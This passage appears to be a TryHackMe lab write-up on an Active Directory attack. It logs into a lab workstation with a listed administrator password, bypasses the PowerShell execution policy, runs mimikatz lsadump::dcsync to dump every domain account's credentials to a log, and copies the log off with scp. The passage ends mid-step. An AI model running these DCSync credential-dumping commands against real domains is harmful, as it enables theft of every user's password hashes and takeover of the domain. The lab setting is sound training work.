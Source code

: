 
## Practical
---

Let's begin by going into ssh using the administrator credentials:

```
ssh za\\Administrator@thmwrk1.za.tryhackme.loc

# Password is: tryhackmewouldnotguess1@
```

Once on here, we need to start mimikatz, use this one since the `x64` version is kind of bugged and can freeze the ssh session:

```powershell
powershell.exe -ep bypass
C:\Tools\mimikatz_trunk\WIN32\mimikatz.exe
```

Now, once this works, we need to do:

```powershell
lsadump::dcsync /domain:za.tryhackme.loc /user:OUR_PROVIDED_USER
```

Nice, we will get something like this:

![](../images/Pasted%20image%2020250527231618.png)

We need to enable logging on mimikatz:

```
log USERNAME_dcdump.txt 
```

Now, let's do:

```
lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take some time, once it finishes, we can download the file using scp:

```bash
scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/LOG_NAME .
```

In this case I did:

```
scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/chloe.potter_dcdump.txt .
```

We can use a code editor to check for the hash:

![](../images/Pasted%20image%2020250527232844.png)

Or we can use grep:

